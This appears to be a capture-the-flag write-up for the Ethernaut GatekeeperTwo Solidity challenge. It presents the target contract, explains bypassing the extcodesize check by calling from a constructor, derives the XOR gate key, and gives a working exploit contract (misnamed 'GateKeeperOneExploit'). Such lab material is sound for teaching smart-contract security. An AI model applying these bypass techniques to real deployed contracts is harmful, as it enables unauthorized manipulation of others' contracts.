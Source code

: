 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

This challenge as above challenge requires us to pass three gates. first gate is same while second gate checks if the caller is smart contract or not. "extcodesize" returns the length of the code in bytes at the given address, this gate requires it to be 0. But "gateOne" requires caller to be a smart contract. The solution for this is to call this contract from the constructor. When called from the constructor, the contract's final code is not yet returned to the evm and it will only be done after finishing this call, as a result the codesize will still be 0 at the caller's address. so, "extcodesize" returns 0 when called from the constructor allowing us to pass this gate. "gateThree" checks the passed "gateKey" using "xor" operation. we can change the variables in the equation and find the required "gateKey" easily.

```solidity
pragma solidity ^0.6.0;

contract GateKeeperOneExploit {
    constructor(address gateKeeperInstance) public {
        uint64 key = 0;
        key = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1);
        gateKeeperInstance.call(abi.encodeWithSignature("enter(bytes8)", bytes8(key)));
    }
}
```

